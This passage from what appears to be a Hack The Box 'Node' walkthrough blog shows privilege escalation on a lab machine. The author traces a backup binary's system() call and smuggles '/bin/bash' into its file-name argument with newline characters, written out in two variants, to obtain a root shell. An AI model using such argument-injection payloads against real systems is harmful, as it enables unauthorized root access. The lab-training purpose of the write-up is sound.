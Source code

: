 Run ltrace again on the program to backup a file that doesn’t exist, in our case, we name that file “bla”

```text
ltrace -s 200 ./backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 bla
```

You get the following system call.

```text
...
system("/usr/bin/zip -r -P magicword /tmp/.backup_725656931 bla > /dev/null" <no return ...>
...
```

It runs the zip command on the file name. Since the input is only partially validated against the list of characters we found above, we can exploit this to get command execution.

One thing to note is that it does send the output to /dev/null and therefore to bypass that we have to pass a random command/string after our bash shell command.

The new line character \(\n\) is not blacklisted and so we can use it as part of our exploit. In order to execute multiple commands in the system command we usually use the “;” character but that is blacklisted, so we’ll resort to using the new line character “\n”

```text
# set a new line variable
newline=$'\n'# exploit
./backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "bla${newline}/bin/bash${newline}bla"
```

The way the exploit works is it first runs the zip command on the first “bla” we encounter, then it reaches the new line and runs the command /bin/bash giving us a shell and then sends the output of the second “bla” to /dev/null.

![](https://miro.medium.com/max/1025/1*RAZHi8w4kX6ug2SZDV0U-w.png)

This gives us root access to the machine!

Another way of doing it is using the printf command.

```text
newline=$'\n'
./backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "$(printf 'bla\n/bin/bash\nbla')"
```

**Method 5— Buffer Overflow**

I unfortunately still don’t know how to exploit buffer overflow vulnerabilities yet. When I do, I’ll update this blog explaining how to escalate privileges using a buffer overflow exploit. In the mean time, both [ippsec](https://www.youtube.com/watch?v=sW10TlZF62w) and [rastating](https://rastating.github.io/hackthebox-node-walkthrough/) have walkthroughs explaining it.

## Lessons Learned <a id="3130"></a>

To gain an initial foothold on the box we exploited three vulnerabilities.
